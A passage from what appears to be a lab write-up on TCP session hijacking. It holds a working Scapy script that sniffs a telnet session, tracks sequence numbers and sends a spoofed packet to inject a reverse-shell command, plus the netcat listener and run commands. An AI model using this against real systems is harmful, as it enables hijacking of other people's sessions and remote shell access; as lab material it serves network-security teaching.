         send(pkt, verbose=0)
        done = True
        print("[+] Hijack packet sent. Exiting.")
        exit(0)

    def process_packet(pkt):
        """Callback function to update state with each sniffed packet."""
        global sequenceNumber, ackNumber, sourcePort, lastPacketTime
        # Check if the packet has a TCP layer
        if TCP in pkt:
            lastPacketTime = time.time()
            sequenceNumber = pkt[TCP].seq
            ackNumber = pkt[TCP].ack
            sourcePort = pkt[TCP].sport
            print(f"[*] Packet sniffed. Seq: {sequenceNumber}, Ack: {ackNumber}, Port: {sourcePort}")

    def check_for_hijack():
        """Continuously checks if the connection has timed out."""
        global lastPacketTime
        while True:
            # timeout has been exceeded and we did not see any packets
            if lastPacketTime is not None and (time.time() - lastPacketTime > timeout):
                hijackConnection()
                break 
            time.sleep(1)

    # Start packet sniffing in a separate thread
    # The sniff function will call process_packet for every TCP packet it sees
    print("[*] Starting packet sniffer in the background...")
    sniff_thread = threading.Thread(target=lambda: sniff(iface='br-82f1d76314d9', filter='tcp', prn=process_packet))
    sniff_thread.daemon = True # Allows the main program to exit even if this thread is running
    sniff_thread.start()

    # Check for the hijack opportunity
    if not done:
        print("[*] Monitoring for idle connection...")
        check_for_hijack()
    ```
- before we run the script, we start a netcat listener on host machine on port 9090 using `nc -l -p 9090`
- Then we run the python script `sudo python3 auto_tcp_hijack.py` to sniff and spoof the TCP packet to inject the reverse shell command into the telnet session
